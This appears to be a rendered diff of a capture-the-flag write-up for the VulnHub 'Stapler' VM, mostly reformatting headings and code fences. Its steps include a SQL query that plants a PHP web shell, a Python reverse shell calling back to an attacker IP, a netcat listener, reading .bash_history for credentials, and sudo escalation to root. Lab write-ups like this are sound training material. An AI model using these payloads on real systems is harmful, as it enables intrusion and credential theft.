

Before and after one commit to 2series/cyber-labs-2series, a Markdown page: vulnhub/02stapler.md, 3 parts joined by grey strips. Shown: that part at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/vulnhub/02stapler.md
+++ b/vulnhub/02stapler.md
@@ -23,6 +22,6 @@ The challenge involved penetration testing and exploiting the "Stapler" VM, focu
 The first step in any penetration test is enumeration. We need to find the target's IP address and then scan it to understand what services are running.
 
-**Chain of Thought:**
+**CoT:**
 1. Use `netdiscover` to find the target VM's IP address on the network.
 2. Run an `nmap` scan with options `-sS` (SYN scan), `-A` (OS and service detection), `-O` (OS detection), `-n` (no DNS resolution), and `-p1-60000` (scan all ports) to gather information about the target.
 
@@ -39,6 +36,6 @@ The first step in any penetration test is enumeration. We need to find the targe
 The `nmap` scan revealed that anonymous FTP login is allowed. We need to exploit this to see if we can find any useful information.
 
-**Chain of Thought:**
+**CoT:**
 1. Connect to the FTP server using the `ftp` command and the target's IP address.
 2. Log in with the username `anonymous` and the password `anonymous`.
 3. Use the `ls` command to list the files on the server.
@@ -328,26 +329,34 @@ We have a shell on the target machine. We should try to find a way to escalate p
     describe wp_users;
     SELECT user_login, user_pass FROM wp_users;
     ```
+
 3. **Upload PHP Shell:** Upload a PHP command shell to the server.
 
     ```sql
     Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
     ```
+
 4. **Verify Shell:** Navigate to `https://192.168.1.13:12380/blogblog/wp-content/uploads/shell.php` to check if the shell is accessible.
 
 # Reverse Shell and TTY Shell
 
 1. **Set Up Netcat Listener:** Start a netcat listener on your attacking machine.
+
     ```zsh
     2series@kali:~$ nc -lvp 443
     ```
+
 2. **Execute Reverse Shell:** Use the PHP command shell to execute a Python reverse shell.
-    ```
+
+    ```zsh
     ?cmd=python%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
     ```
+
     Replace `192.168.1.7` with your attacking machine's IP address.
+
 3. **Spawn TTY Shell:** Spawn a TTY shell using Python.
-    ```
+
+    ```python
     python -c 'import pty;pty.spawn("/bin/bash")'
     ```
 
@@ -358,20 +367,24 @@ We have a shell on the target machine. We should try to find a way to escalate p
     ```zsh
     2series@kali:~$ find -name ".bash_history" -exec cat {} \;
     ```
+
 2. **SSH with Discovered Credentials:** Use the discovered credentials (e.g., for user `peter`) to SSH into the target machine.
 
     ```zsh
     2series@kali:~$ ssh peter@192.168.1.13
     ```
+
 3. **Check Sudo Permissions:** Use `sudo -l` to check for sudo permissions.
 4. **Change User Shell:** Change the user's shell to bash if allowed.
 
     ```zsh
     2series@kali:~$ sudo usermod -s /bin/bash peter
     ```
+
 5. **Switch to Root:** Use `sudo -i` to switch to the root user.
 6. **Capture the Flag:** Navigate to `/root` and read the `flag.txt` file.
-    ```bash
+
+    ```zsh
     cd /root
     cat flag.txt
     ```
````
Also changed, not shown: other parts of vulnhub/02stapler.md (+45 -44 lines), vulnhub/03sickOS.md (added).
